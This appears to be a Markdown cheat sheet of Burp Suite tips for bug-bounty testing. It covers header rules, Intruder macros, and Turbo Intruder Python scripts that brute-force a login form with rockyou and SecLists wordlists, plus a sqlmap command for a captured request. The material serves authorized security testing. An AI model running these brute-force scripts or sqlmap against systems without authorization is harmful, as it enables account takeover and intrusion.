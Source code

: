 ```yaml
---
title: Burp Suite
desc: An application security testing software.
tags: [Burp, Web]
alts: []
render_with_liquid: false
---
```


## Custom HTTP Header

It is useful for bug bounties.

1. Go to Proxy -> Options tab.
2. Scroll down to "Match and Replace".
3. Click on "Add".
4. Set rule:

    - **User Agent**

        ```
        Type: Request header
        Match: ^User-Agent.*$
        Replace: User-Agent: HackerOne-username
        Comment:
        ```

    - **New Original Header**

        ```
        Type: Request header
        Match: (empty)
        Replace: X-Bug-Bounty: HackerOne-username
        Comment:
        ```

5. Check the box of "Regex match".
6. Click on "OK".
7. Search for the rule in the list and click on "Enabled".

<br />

## Automate a Sequence of Requests with Burp Intruder

```
1. "Project options" -> "Sessions" -> "Session handling rules" panel -> Click "Add"
2. "Session handling rules editor" opens
3. "Scope" tab -> Select "Include all URLs"
4. "Details" tab -> Under "Rule actions" -> Click "Add" -> "Run a macro" -> Under "Select macro" -> Click "Add"
5. "Macro Recorder" opens
6. Select the sequence of requests as follows:
	POST /message/submit
	GET /message
	POST /account
7. Click "OK"

<For management of parameters>
option 1. In the list of requests, select the requests in which specific value used POST parameter changes.
option 2. Click "Configure item" -> Dialog opens -> Click "Add" -> Enter the name of the parameter.
option 3. Highlight the value in the response code.
option 4. Click "OK" twice to go back to the Macro editor.
option 5. Select the POST request in which using the above value for parameter.
option 6. Click "Configure item" -> In the "Parameter handling" section -> drop-down to menus to specify the parameter name to be "derived from the prior response (response 4) -> Click "OK"
option 7. In the Macro editor -> Click "Test macro" to check if the sequence does correctly.

8. Send the arbitrary request to the Burp Intruder.
9. Select "Sniper" attack type.
10. On the "Payloads" tab -> select the payload type "Null payloads" -> Under "Payload options" -> enter the arbitrary number of payloads.
11. Start the attack.
```

<br />

## Brute Force using Turbo Intruder

1. **Single Parameter**

    Set **“%s”** to the parameter for brute force.

    ```python
    POST /login HTTP/1.1
    ...
    username=admin&password=%s

    # -------------------------------------------------------------------

    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=5,
                            requestsPerConnection=5,
                            pipeline=False
                            )

        # Brute force (wordlist)
        for word in open('/usr/share/wordlists/rockyou.txt'):
            engine.queue(target.req, word.rstrip())

        # Brute force (0 - 255)
        for i in range(0, 255):
            engine.queue(target.req, str(i))

        # Brute force (0000 - 9999)
        for word in open('/usr/share/seclists/Fuzzing/4-digits-0000-9999.txt'):
            engine.queue(target.req, word.rstrip())

        # Brute Force (alphabet)
        for word in open('/usr/share/seclists/Fuzzing/char.txt'):
            engine.queue(target.req, word.rstrip())

        # Brute Force (alphanum upper-lower)
        for word in open('/usr/share/seclists/Fuzzing/alphanum-case.txt'):
            engine.queue(target.req, word.rstrip())

        # Null payloads (infinite loop)
        i = 0
        while i < 1:
            engine.queue(target.req, None)

        # Null payloads (100 loops)
        i = 0
        while i < 100:
            engine.queue(target.req, None)
            i += 1


    def handleResponse(req, interesting):
        if interesting:
            table.add(req)
    ```

2. **Multiple Parameters**

    Set **multipla “%s”** to the parameters for brute force.

    ```python

    POST /login HTTP/1.1
    ...
    username=%s&password=%s

    # --------------------------------------------------------------

    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=5,
                            requestsPerConnection=100,
                            pipeline=False
                            )

        for firstWord in open('/path/to/usernames'):
        for secondWord in open('/path/to/passwords'):
            engine.queue(target.req, [firstWord.rstrip(), secondWord.rstrip()])


    def handleResponse(req, interesting):
        # currently available attributes are req.status, req.wordcount, req.length and req.response
        if req.status != 404:
            table.add(req)
    ```

<br />

## Useful BApps

To install them, move to **“Extender” → “BApp Store”**.

```
Decoder Improved
Turbo Intruder
```

<br />

## Download Request Data for Sqlmap

When using **Sqlmap**, you'll be able to use the downloaded file.

```sh
# On Burp Suite

1. Right click in the request field.
2. Click "Copy to file" to download the request url, headers, so on.
3. Save as "request.txt" (this is arbitrary).

# ----------------------------------

# On your terminal

sqlmap -r request.txt
```
